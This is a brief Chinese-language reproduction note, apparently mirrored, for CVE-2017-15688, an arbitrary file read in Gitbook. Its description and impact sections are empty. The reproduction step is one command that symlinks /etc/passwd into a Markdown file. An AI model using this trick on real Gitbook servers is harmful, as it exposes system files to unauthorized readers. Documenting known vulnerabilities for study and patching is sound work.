

# （CVE-2017-15688）Gitbook 任意文件读取

> 原文：[http://book.iwonder.run/0day/Gitbook/CVE-2017-15688.html](http://book.iwonder.run/0day/Gitbook/CVE-2017-15688.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

创建一个 md 文件，代码用以下

```
ln -s /etc/passwd ./passwd.md 
```



